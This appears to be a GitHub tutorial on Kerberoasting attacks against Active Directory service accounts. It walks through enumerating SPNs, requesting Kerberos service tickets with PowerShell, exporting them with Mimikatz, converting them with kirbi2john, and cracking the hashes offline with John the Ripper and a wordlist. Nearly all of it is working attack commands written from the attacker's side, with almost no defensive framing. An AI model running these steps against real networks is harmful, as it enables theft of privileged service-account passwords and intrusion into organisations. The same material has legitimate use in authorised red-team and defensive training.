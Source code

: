 # Service-Account-Attacks

A service account is a “non-human” account that is used to run services or applications. Service accounts are not administrative accounts, or other “human” accounts, used interactively by administrators or other employees. Service accounts also often have privileged access to computers, applications, and data, which makes them highly valuable to attackers.

## Extracting Service Account Passwords with Kerberoasting
Kerberoasting takes advantage of how service accounts leverage Kerberos authentication with Service Principal Names (SPNs).

First we need to find the Service Principle names using [GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1).
```markdown
.\GetUserSPNs.ps1 
```

![OnPaste 20220612-182821](https://user-images.githubusercontent.com/106917304/173234405-a8881d5c-be62-4459-a799-0b4e41cc5170.png)


We will go for MSSQLSvc.

### Request Service Tickets for service account SPNs
```markdown
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/x.y.com:1433" 
```

![OnPaste 20220612-183353](https://user-images.githubusercontent.com/106917304/173234596-52ce6d5a-d6ce-4ba3-81f6-07aa2594083d.png)


###  Extract Service Tickets Using Mimikatz
```markdown
.\mimikatz.exe 
privilege::debug 
kerberos::list /export 
```

![OnPaste 20220612-183717](https://user-images.githubusercontent.com/106917304/173234808-f56b6f91-08f6-489d-b83a-b64e940c6c8c.png)


![OnPaste 20220612-183857](https://user-images.githubusercontent.com/106917304/173234823-2d16862b-b0b9-4ea6-b5a5-c3c25bfefe6a.png)


We've successfully imported .kirbi files. Grab the MSSQL one, and download it to attacker machine.

### Crack the Tickets
We gonna use [kirbi2john.py](https://github.com/nidem/kerberoast) to get john hash and crack it using john.
```markdown
python3 kirbi2john.py -o hash mssql.kirbi 
```

![OnPaste 20220612-184621](https://user-images.githubusercontent.com/106917304/173235093-3de3a8f2-c18b-4358-868c-8062bc8a3d42.png)


![OnPaste 20220612-184727](https://user-images.githubusercontent.com/106917304/173235137-f9c5cce6-ca60-41fb-96d9-b66bef030cf5.png)

Now the hash is in john format. We can try to crack it.
```markdown
john hash --wordlist=/home/kali/Downloads/rockyou.txt 
john hash --show
```

![OnPaste 20220612-184954](https://user-images.githubusercontent.com/106917304/173235236-2eb3d49f-c6a7-43f5-9924-0ef857bda810.png)


